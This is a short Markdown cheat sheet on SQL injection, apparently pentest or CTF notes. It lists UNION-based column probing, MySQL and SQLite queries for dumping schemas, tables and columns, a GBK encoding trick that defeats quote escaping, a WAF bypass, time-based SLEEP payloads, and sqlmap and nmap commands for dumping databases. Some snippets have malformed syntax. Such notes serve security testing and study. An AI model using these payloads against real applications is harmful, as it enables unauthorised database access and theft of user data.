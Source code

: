# SQL injection

## Comments
MySQL interprets `#` and `--` as the beginning of comments

## Identifying the vulnerability
Quotes are always a good way to start
### Union based
##### Identitfy the number of parameters retrieved from the legal request

```sql
0 UNION SELECT null,null                # ERROR
0 UNION SELECT null,null,null           # ERROR
0 UNION SELECT null,null,null,null      # ERROR
0 UNION SELECT null,null,null,null,null # Returns a valid response
```

### Dumping schemas
*MySQL*
```sql
SELECT DISTINCT table_schema FROM information_schema.tables;
```
### Dumping tables
*MySQL*
```sql
SELECT table_name FROM information_schema.tables WHERE table_schema='SCHEMA_NAME_HERE';
```
*SQLite3*
```sql
SELECT tbl_name FROM sqlite_master
```

### Dumping columns
*MySQL*
```sql
SELECT column_name FROM information_schema.columns WHERE table_schema='SCHEMA_NAME_HERE' AND table_name='TABLE_NAME_HERE';
```
*SQLite3*
```sql
SELECT name FROM PRAGMA_TABLE_INFO('TABLE_NAME_HERE');
```

## Concat

**Mysql**
```sql
SELECT group_concat('0x7C',username,'0x7C') FROM users;
```

# GBK

SQL injection may appears when using GBK encoding. If `'` are escaped with a `\`, we can use GBK encoding to insert a value before the `'` so the payload looks like `something\'`. 
The point is that some GBK chars are like XX5C where 5C is the hex value of `\`. 

So the injection may be interpreted as `縗'` (GBK value of 0xbf5c27 a.k.a `¿\'` in ASCII ) and so the quote is not escaped anymore



## WAF

### Bypass simple quotes
*SQLite3*
- using hex(hex()), cast and substr() functions
```sql
SELECT tbl_name FROM sqlite_master WHERE hex(substr(tbl_name,1,1))=(SELECT CAST ($41$ AS TEXT)
```

## Useful functions
```sql
group_concat()
substr("string",INDEX,LENGTH)
hex()
cast(integer AS TEXT)
cast("0123" as INT)
```


## Time based SQLi 
This happens when nothing is returned by the request.
If the request come back after a given time, it worked.

```sql
SELECT SLEEP(5);
SELECT SLEEP(5),null,null;
```


## TOOLS :
- SQLmap
It needs to capture a request with burp and put it in request.txt
```bash
sqlmap -r request.txt --dbms-mysql --dump
```
- NMap
```bash
nmap -p 1433 --script ms-sql-info --script-args mssql.instance-port=1433 <host>
```



